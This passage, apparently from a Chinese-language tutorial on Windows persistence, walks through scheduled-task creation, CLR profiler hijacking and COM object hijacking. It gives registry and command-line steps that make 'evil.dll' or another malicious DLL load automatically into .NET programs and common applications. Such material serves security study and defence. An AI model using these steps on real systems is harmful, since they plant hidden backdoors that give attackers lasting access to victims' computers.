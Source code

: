 <a class="reference-link" name="%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1"></a>**计划任务**

通过Window系统的任务计划程序功能实现定时启动某个任务程序，Windows下计划任务的命令有：at和schtasks，其中at命令在win7等高版本windows中不能将任务放在前台执行，也就是只会打开一个后台进程，而schtasks是将定时的任务在前台执行。

```
图形化工具：taskschd.msc
命令行工具：schtasks.exe
SCHTASKS /parameter [arguments]
/Create         创建新计划任务
/Delete         删除计划任务
/Query          显示所有计划任务
/Run            运行计划任务
/End            中止当前正在运行的计划任务
比如:
cmd&gt; SCHTASKS /Create /TN update /TR xxx(要执行的命令)  /DELAY ONLOGON /F /RL HIGHEST
```

### <a class="reference-link" name="4.clr%20hijack"></a>4.clr hijack

CLR(Common Language Runtime公共语言运行库)和Java虚拟机一样是一个运行时环境，是一个可由多种编程语言使用的运行环境。CLR是 .Net Framework的主要执行引擎，无需管理员权限的后门，并能够劫持所有.Net程序，执行有些程序时会默认会调用.Net程序，从而使我们的后门自动触发。

```
cmd&gt; SET COR_ENABLE_PROFILING=1
cmd&gt; SET COR_PROFILER=`{`11111111-1111-1111-1111-111111111111`}`   //`{`11111111-1111-1111-1111-111111111111`}`表示CLSID可设置为任意数值，只要和系统常用CLSID不冲突
cmd&gt; SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\`{`11111111-1111-1111-1111-111111111111`}`\lceServe  //新建子项`{`11111111-1111-1111-1111-111111111111`}`\lceServe
cmd&gt; REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F    //新建REG_SZ类型键值ThreadingModel:Apartment
cmd&gt; REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\evil.dll" /F  //修改默认路径值为evil.dll"的路径
cmd&gt; powershell //启动powershell时执行目标dll
PS：需要注册为全局变量，不然只能在这个cmd窗口劫持：
cmd&gt; SETX COR_ENABLE_PROFILING=1 /M
cmd&gt; SETX COR_PROFILER=`{`11111111-1111-1111-1111-111111111111`}` /M

自动化工具：CLR-Injection.bat
```

### <a class="reference-link" name="5%20.com%20hijack"></a>5 .com hijack

Component Object Model（组件对象模型），是微软的一套软件组件的二进制接口标准，使得跨编程语言的进程间通信、动态对象创建成为可能。利用COM劫持技术，通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例。

```
首先在%APPDATA%\Microsoft\Installer\`{`BCDE0395-E52F-467C-8E3D-C4579291692E`}`\目录下放入恶意dll文件   //若Installer文件夹不存在，则依次创建Installer\`{`BCDE0395-E52F-467C-8E3D-C4579291692E`}`
然后修改注册表，在HKCU\Software\Classes\CLSID\下创建项`{`b5f8350b-0548-48b1-a6ee-88bd00b4a5e7`}`
然后再创建一个子项lceServer，值默为dll文件路径。再创建一个键ThreadingModel，键值为：Apartment
之后可以通过打开相关程序比如iexplore.exe来调用恶意dll

相关工具：COM-Object-hijacking
```
